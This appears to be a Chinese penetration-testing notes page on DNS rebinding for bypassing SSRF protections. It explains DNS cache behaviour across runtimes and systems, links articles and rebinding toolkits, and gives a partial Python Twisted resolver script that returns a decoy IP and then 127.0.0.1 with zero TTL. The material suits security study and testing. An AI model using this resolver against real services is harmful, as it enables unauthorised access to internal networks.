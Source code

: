 **注意点**

1. java 中 DNS 请求成功的话默认缓存 30s(字段为 networkaddress.cache.ttl，默认情况下没有设置)，失败的默认缓存 10s。（缓存时间在 /Library/Java/JavaVirtualMachines/jdk /Contents/Home/jre/lib/security/java.security 中配置）所以一般认为 java 不存在 DNS rebinding 问题。
2. 在 php 中则默认没有缓存。
3. Linux 默认不会进行 DNS 缓存，mac 和 windows 会缓存 (所以复现的时候不要在 mac、windows 上尝试)
4. 有些公共 DNS 服务器，比如 114.114.114.114 还是会把记录进行缓存，但是 8.8.8.8 是严格按照 DNS 协议去管理缓存的，如果设置 TTL 为 0，则不会进行缓存。

**相关文章/案例**
- [DNS Rebinding 域名重新绑定攻击技术](https://cloud.tencent.com/developer/article/1400018)
- [通过 DNS Rebinding 获取访客 QQ 号](https://0x0d.im/archives/get-visitor-qq-number-through-dns-rebinding.html)
- [Java环境下通过时间竞争实现DNS Rebinding 绕过SSRF 防御限制](https://mp.weixin.qq.com/s/dA40CUinwaitZDx6X89TKw)
- [渗透测试-DNS重绑定](https://mp.weixin.qq.com/s/Y03173LF2SN5zF1zgvx4EQ)
- [从0到1认识DNS重绑定攻击](https://xz.aliyun.com/t/7495)
- [DNS Rebinding in Browser](https://mp.weixin.qq.com/s/jiX1zC5_1y9tipYzM8Oxdg)

**相关工具**
- [makuga01/dnsFookup](https://github.com/makuga01/dnsFookup) - DNS rebinding toolkit
- [nccgroup/singularity](https://github.com/nccgroup/singularity) - A DNS rebinding attack framework.
- http://ceye.io/dns-rebinding
- [Tr3jer/dnsAutoRebinding](https://github.com/Tr3jer/dnsAutoRebinding) - ssrf、ssrfIntranetFuzz、dnsRebinding、recordEncode、dnsPoisoning、Support ipv4/ipv6

**利用方法**

Dns rebinding 常见方案除了自建 dns 服务器之外，还可以通过绑定两个 A 记录，一个绑定外网 ip，一个绑定内网 ip。这种情况访问顺序是随机的，无法保证成功率。

自建 dns 服务器需要配置将域名的 dns 服务指向自己的 vps，然后在 vps 上运行域名解析脚本，内容如下
```py
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server

record={}
class DynamicResolver(object):
    def _doDynamicResponse(self, query):
        name = query.name.name
        if name not in record or record[name]<2:
            # 随意一个 IP，绕过检查即可
            ip="1.2.3.4"
        else:
            ip="127.0.0.1"
            record[name]=0
        if name not in record:
            record[name]=0
        record[name]+=1
        print name+" ===> "+ip
        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional
    def query(self, query, timeout=None):
        return defer.succeed(self._doDynamicResponse(query))

def main():
```
